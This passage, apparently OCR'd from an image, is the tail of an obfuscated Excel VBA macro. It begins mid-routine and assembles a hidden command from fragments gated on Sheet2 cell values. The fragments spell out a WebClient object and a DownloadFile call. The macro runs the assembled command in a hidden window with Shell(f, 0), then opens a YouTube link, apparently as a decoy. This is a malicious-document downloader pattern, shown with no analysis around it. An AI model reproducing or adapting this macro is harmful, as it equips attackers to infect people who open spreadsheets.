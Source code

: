 ```vb
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "e$3fn"
End If
If Sheets("Sheet2").Range("A12").Value = "X42fc3/=" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "av3ei"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "K ="
End If
If Sheets("Sheet2").Range("L99").Value = "t8PygQka" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " ne"
End If
If Sheets("Sheet2").Range("X31").Value = "gGJBD5tp" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "w-o"
End If
If Sheets("Sheet2").Range("C42").Value = "Dq7Pu9Tm" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bjec"
End If
If Sheets("Sheet2").Range("D22").Value = "X42/=rrE" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "aoX3&i"
End If
If Sheets("Sheet2").Range("T34").Value = "9u2uF9nM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t Ne"
End If
If Sheets("Sheet2").Range("G5").Value = "cp+qRR+N" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t.We"
End If
If Sheets("Sheet2").Range("O17").Value = "Q8z4cV/f" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bCli"
End If
If Sheets("Sheet2").Range("Y50").Value = "OML7UOYq" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "ent;"
End If
If Sheets("Sheet2").Range("P41").Value = "bG9LxJvN" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$OrA"
End If
If Sheets("Sheet2").Range("L58").Value = "qK02fT5b" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "y{$oa"
End If
If Sheets("Sheet2").Range("P47").Value = "hXelsG2H" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "K.Dow"
End If
If Sheets("Sheet2").Range("A2").Value = "RcPl3722" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "Ry.is"
End If
If Sheets("Sheet2").Range("G64").Value = "Kvap5Ma0" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "nload"
End If
If Sheets("Sheet2").Range("H76").Value = "OjgR3YGk" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "File("
End If
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
Retval = Shell(f, 0)
Dim URL As String
URL = "https://www.youtube.com/watch?v=mYiBdMnIT88"
ActiveWorkbook.FollowHyperlink URL
End Sub
```
